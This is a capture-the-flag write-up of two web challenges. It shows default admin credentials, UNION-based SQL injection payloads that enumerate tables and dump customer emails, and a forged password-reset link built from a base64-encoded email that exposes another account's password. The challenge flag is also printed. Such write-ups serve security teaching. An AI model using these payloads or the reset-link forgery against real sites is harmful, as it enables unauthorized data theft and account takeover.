 # Web

## Stockos

Our first goal, given by Jérémy Nitel, was to search for creditentials in a broken warehouse's website named Stockos. The messages also indicates that Stockos has its admin password leaked multiple times and that it was a simple one.

When landing on the provided link (https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/), we stumble upon a login page. Remembering the easy password, we tried `admin` as login and password. Bingo! It was right, we are now logged on as the admin. We cannot do much except change some personal infos about the admin and list the orders from the warehouse. Interestingly, there is a search function, this got us and idea to try for an SQL injection.

And so we did, by trying different character sets, we found out that `' AND 1=1 -- '` works. We then supposed that the request was written like this:
```sql
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='<our input text>%' ORDER BY section ASC
-- With our input text:
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 1=1 -- '%' ORDER BY section ASC;
```
Now, with a door to enter, we can use the keyword `UNION` to append new information on the tables. One very interesting table name to look for is `information_schema.tables`. This is a table that lists all tables.
```sql
-- <' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '%' ORDER BY section ASC
```
With every tables listed, we can check the `customer` table. We still need the column names and the table `information_schema.columns` can help us.
```sql
-- <' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '%' ORDER BY section ASC
```
The request above will print the name of every column of `customer`. `name` and `email` are very useful.
```sql
-- <' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '%' ORDER BY section ASC
```
This last SQL request will print the list of each customer's name and email. And there lays the email we are looking for: `agent.malice@secret.evil.gov.ev`. We can now go try the rest of the challenge.

*__Note__: The end of the SQL request can be leaked by creating a malformed request like `'`. You can also find that this is a MySQL server. The numbers `1` to `5` in SQL requests are special name for dummy columns.*

## Evil Air

This plane ticket bookmarking website were also given by Mr. Nitel (https://www.challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/). We had to book a plane ticket from `Bad City` to `Evil City` at thoses dates `26/10/2020` -> ` 28/10/2020` (French Date Format).

When we tried to book the ticket, it asked us to login / register on the site. If you register with a standard mail / username email, you will be denied from accessing the order page, and accessing the QR Code that contain the flag to going further.

What we saw :

The account activation page use a link like this 

activate : `http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/activate/ZXhhbXBsZS5leGFtcGxlQHRlc3QuY29t

then we looked at the reset password form, and the link were the same with the sole variation : instead of `/activate/` you have `/reset/`
we digged more the link and discovered that the last part of the link `some_other_value` were a base64 hash of the account email address (this link is the hash of example.example@test.com) we replaced the fake account with the base64 hash of the email we were looking for on stockos, then it displayed the password, and allowed us to order the ticket, then the QR code, then unlocking the flag.

The password recovery link : 

http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/reset/YWdlbnQubWFsaWNlQHNlY3JldC5ldmlsLmdvdi5ldg==

Password of the user profile : Superlongpassword666

[image du QR CODE]

Flag : `DGSESIEE{2cd992f9b2319860ce3a35db6673a9b8}`

When we sent the flag, we got a Wireshark dump file.
